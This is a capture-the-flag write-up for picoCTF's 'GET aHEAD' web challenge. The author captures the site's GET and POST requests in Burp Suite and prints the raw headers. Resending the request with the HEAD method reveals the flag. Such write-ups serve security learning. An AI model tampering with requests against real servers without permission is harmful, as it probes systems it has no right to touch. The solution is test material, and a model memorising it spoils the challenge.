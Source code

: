 # Challange Info

Name : GET aHEAD

Difficulty : Easy

Category : Web Exploitation

Link : https://play.picoctf.org/practice/challenge/132?category=1&page=1

# Writeup

Navigating the webpage http://mercury.picoctf.net:53554/.

There were two options Choose Red and Choose Blue.

Intercepting both requests with Burpsuite.

The Choose Red was a GET request.

```
GET /index.php? HTTP/1.1

Host: mercury.picoctf.net:53554

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://mercury.picoctf.net:53554/index.php

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive
```

And Choose Blue was a POST request.

```
POST /index.php HTTP/1.1

Host: mercury.picoctf.net:53554

Content-Length: 0

Cache-Control: max-age=0

Origin: http://mercury.picoctf.net:53554

Content-Type: application/x-www-form-urlencoded

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://mercury.picoctf.net:53554/index.php?

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive
```

Both request didn't had any data which could be modified but something was off why there was two different type of request used when it could be dome from only one request type.

I searched internet for different types of requests.

```
GET
POST
PUT
DELETE
PATCH
HEAD
OPTIONS
TRACE
CONNECT
```

Out of all of these i tried modifying GET request and replacing GET header with HEAD.

```
HEAD /index.php? HTTP/1.1

Host: mercury.picoctf.net:53554

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://mercury.picoctf.net:53554/index.php

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive
```

In response of this request there was the flag.
